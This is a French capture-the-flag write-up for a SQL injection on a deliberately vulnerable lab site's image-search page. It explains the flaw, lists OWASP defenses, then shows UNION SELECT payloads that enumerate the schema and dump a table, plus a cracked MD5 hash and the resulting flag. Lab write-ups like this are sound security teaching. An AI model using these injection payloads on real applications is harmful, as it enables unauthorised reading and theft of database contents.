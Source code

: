 # SQL Injection

## URL
/index.php?page=searchimg

## Description
Une attaque par injection SQL consiste à insérer une requête SQL via les données envoyées par le client à l'application. </br>
Une exploitation réussie permet de lire, modifier ou supprimer des données de la base, d'exécuter des opérations d'administration (comme arrêter le SGBD), d'accéder à des fichiers du système ou, dans certains cas, de lancer des commandes sur le système d'exploitation. Les attaques par injection SQL font partie des attaques par injection, où des commandes SQL sont insérées dans les entrées de données pour affecter l'exécution de commandes SQL prédéfinies.
Les attaques par injection SQL permettent aux attaquants de falsifier des identités, manipuler des données, annuler des transactions, divulguer ou détruire des données, ou devenir administrateurs du serveur de base de données. Elles sont fréquentes dans les applications PHP et ASP en raison des interfaces fonctionnelles anciennes. Les applications J2EE et ASP.NET sont moins vulnérables. La gravité de ces attaques dépend des compétences de l'attaquant, mais reste généralement élevée, malgré les mesures de défense. </br>
[Lien OWASP SQL injection](https://owasp.org/www-community/attacks/SQL_Injection)

## Se protéger
1. Utiliser des requêtes préparées (avec paramètres) : Cette méthode sépare les données du code SQL, empêchant ainsi toute modification malveillante des requêtes.
2. Recourir à des procédures stockées sécurisées : Elles permettent d'exécuter des commandes SQL prédéfinies de manière sécurisée, à condition qu'elles ne construisent pas dynamiquement des requêtes avec des entrées non sécurisées.
3. Valider les entrées utilisateur : Appliquer une validation stricte (par exemple, via des listes blanches) pour s'assurer que les données reçues correspondent aux formats attendus, réduisant ainsi le risque d'injection.
4. Limiter les privilèges des comptes de base de données : Attribuer uniquement les permissions nécessaires aux comptes utilisés par l'application, minimisant ainsi l'impact potentiel d'une injection réussie.
5. Éviter l'échappement manuel des entrées : Cette pratique est déconseillée car elle est sujette à des erreurs et peut être insuffisante pour prévenir toutes les formes d'injection.

[Lien OWASP Injection prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
[Lien OWASP Query Parameterization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Query_Parameterization_Cheat_Sheet.html)

## Reproduire la faille

on nous demande d'entrer un identifiant numérique qui correspond au numéro d'une image, probablement un INTEGER.
même procédé que pour la page de membres. D’ailleurs nous retrouvons les mêmes données, il faut simplement qu’on regarde une autre table.

Si on entre 5 on peut voir :

```sql
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

list_images semble pas mal :

```sql
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
Title: id
Url : list_images
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
Title: url
Url : list_images
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
Title: title
Url : list_images
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
Title: comment
Url : list_images

1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images

ID: 1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
Title: https://fr.wikipedia.org/wiki/Programme_NsaAn image about the NSA !
Url : 1
ID: 1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
Title: https://fr.wikipedia.org/wiki/Fichier:4242 !There is a number..
Url : 2
ID: 1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
Title: https://fr.wikipedia.org/wiki/Logo_de_GoGoogleGoogle it !
Url : 3
ID: 1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
Title: https://en.wikipedia.org/wiki/Earth#/medEarthEarth!
Url : 4
ID: 1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
Title: borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 5
```

Décoder depuis [dcode.fr](https://www.dcode.fr/hash-md5):
Déchiffrement du hash MD5 `1928e8083cf461a51303633093573c46` : **albatroz**
Chiffrer `albatroz` en sha256 : `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

